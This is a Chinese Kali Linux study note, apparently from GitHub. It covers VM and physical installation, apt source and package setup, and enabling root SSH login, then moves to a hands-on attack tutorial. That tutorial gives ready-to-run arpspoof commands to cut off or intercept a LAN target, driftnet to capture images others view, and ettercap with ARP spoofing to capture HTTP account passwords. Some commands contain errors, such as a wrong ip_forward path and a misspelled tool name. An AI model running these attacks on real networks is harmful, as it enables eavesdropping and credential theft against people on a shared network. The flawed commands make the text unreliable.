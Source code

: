                                                 Kali学习笔记

## 1.环境的搭建

### 1.1虚拟机搭建 

物理机要求：  I3同级或者更高级
内存 不小于2G （最低要求）8G 略显紧凑 16G  上天。。
硬盘 只是玩玩的话用32G左右就好  长期玩 不小于80G 

物理机电脑如果是 32位 用vm10版本的 64位 用12版本的 
我不会告诉你 可以右键我的电脑 属性 能看到位数的 

先去bios 确认开启了虚拟化 
然后安装虚拟机  
百度有序列号 不强调 
在桌面的虚拟机图标 右键 属性 兼容性 兼容当前操作系统  并且以管理员身份运行


物理机安装的话 需要先确定 cpu是amd的 还是 inter的  这两个有区别  
首先 amd的 cpu 尽量安装 amd 64位的镜像  inter的cpu 尽量安装i386的镜像 口映射太麻烦，监听的时候 可能会被防火墙拦截 或者无法转发，抓包的时候一大堆物理机的数据包 一小部分是局域网下的 
物理机安装kali物理硬件 性能最大化利用，端口映射简单 方便 
缺点 最主要的是兼容性问题，太坑，除非必要 真心不建议装 或者当前版本不建议（等待官方的更新）再就是 独立显卡驱动 很麻烦 也很鸡肋 
在者 不建议 物理机安装 因为会有很多故障 或者不兼容的情况  
首先用软碟通打开镜像 然后选择存储介质 烧录 然后 重启 更改bios的启动项 设置成 U盘启动 然后 进入到kali安装界面 选择倒数第三项（图形化安装）
剩下的不多叙述 和虚拟机安装方法 大同小异
注意要点：
* 第一  物理机和虚拟机各有优缺点 
虚拟机能快照还原 配置方便 物理硬件更改方便 
缺点，端
* 第二 物理机安装 注意好盘符分区 一定不要弄错了 
* 第三 引导位置，尤其是双硬盘的玩家 一定要注意 引导放在那里
* 第四 如果物理机安装的时候 提示探测不到光盘 请把 未解压的iso镜像放到u盘一份 还是探测不到 请把U盘重新插拔 再探测 还是不行 就去安装的shell里面  df -hl 查看当前挂载点 ，然后 umount
加上最后一行  再执行就好了 
* 第五 如果 你对你的网络不自信 就别用网络镜像更新 很多人都是卡死在这里 
* 第六 记好root密码 忘了  呵呵 重做吧 


#### 1.1.1安装vmtool


在虚拟机选项栏 找到虚拟机选项 下拉菜单中 找到 安装vmtool 
在空白处右键  在终端打开
 先 ls 查看下 当前目录下的所有文件 
 切换到vm目录 执行安装文件  
Vmware-install.pl 是安装文件  vmware-install.real.pl 是卸载文件 


## 1.2 kali虚拟机的配置
#### 1.2.1 更新源的修改
  （最好不要更改，就用官方源，但是其中有些中文的软件安装包没有）

终端修改 /etc/apt/sources.list文件 ，用Nano、vim都可以

```shell
#kali官方源
deb http://http.kali.org/kali kali-rolling main non-free contrib
#中科大的源
deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib


依次执行下面命令： 
apt-get update & apt-get upgrade   更新并升级 
apt-get dist-upgrade 
reboot
```

#### 1.2.2安装 输入法
```shell
apt-get install fcitx fcitx-googlepinyin
```
16.2版本更新了之后 在桌面右上角的设置去找输入法的配置
 
#### 1.2.3字体重叠解决 办法
```
apt-get install -y ttf-wqy-microhei ttf-wqy-zenhei xfonts-wqy
```
#### 1.2.4安装 vpn代理工具 （选装 后期才会涉及到翻墙）
```
apt-get install network-manager-openvpn-gnome
apt-get install network-manager-pptp
apt-get install network-manager-pptp-gnome
apt-get install network-manager-strongswan
apt-get install network-manager-vpnc
apt-get install network-manager-vpnc-gnome
```
#### 1.2.5安装 flash 
```
apt-get install flashplugin-nonfree
update-flashplugin-nonfree --install
```
#### 1.2.6安装nload流量分析工具
```
Apt-get install nload
```
#### 1.2.7修改ettercap配置文件
```
Nano /etc/ettercap/etter.conf 
```
把 ec_uid 、ec_gid的值 改成0 
Ctrl +x 是退出  然后她会询问你是否保存  按 y 然后 她会问你保存的文件名  这块直接回车就好  


#### 1.2.8 Ssh 配置文件修改 
```
nano /etc/ssh/sshd_config 
将#PasswordAuthentication no的注释去掉，并且将NO修改为YES //kali中默认是yes
将PermitRootLogin without-password修改为
   PermitRootLogin yes
```

* Ssh 开机自启 
格式  
```
Update-rc.d 服务 enable //（开启）disabled 关闭
update-rc.d ssh enable  //系统自动启动SSH服务
update-rc.d ssh disabled // 关闭系统自动启动SSH服务
```
完成以上步骤 且确保无误并拍摄快照


# &.Kali系统渗透实战教程

## &.1：局域网断网攻击讲解
注：arp攻击 ，使局域网内某机器断网！  
原理：使目标的ip经过我的网卡，从网关出去，
如果可以从网关出去，就是arp欺骗
如果配置错误，不能从网关出去，经形成断网攻击
Arpspoof

Arpspoof  -i 网卡 -t 目标IP 网关


Kali : 网卡  eth0
目标ip ：192.168.1.100
网关：192.168.1.1


替换掉： arpspoof -i eth0 -t 192.168.1.100  192.168.1.1

怎么看局域网当中的ip呢   

fping -asg 192.168.1.0/24


echo 1 > /proc/net/sys/ipv4/ip_forward

注：echo  写入命令不会有回显

## &.2：图片拦截
driffnet  截取经过网卡的图片
命令：driffnet -i eth0
通过与arp欺骗，
echo 1 > /proc/net/sys/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.100  192.168.1.1

可以获取内网别人浏览过的一些图片
## &.3：http账号密码的截取
在公司我已经学会用wireshark进行用户账号密码的抓包分析，现在通过arp欺骗在用ettercap进行拦截
思路:先进行arp欺骗，然后进行拦截
命令：
执行arp欺骗：
echo 1 > /proc/net/sys/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.100  192.168.1.1
ettercap -Tq -i eth0（其中T代表以文本格式，q是以安静模式）
当然也可以以图形化界面的方式来进行，最终截图的如下列：
 
![http](https://github.com/jitianze/yanzixu/blob/master/picture/1.png)


## &.4：https 账号密码的截取

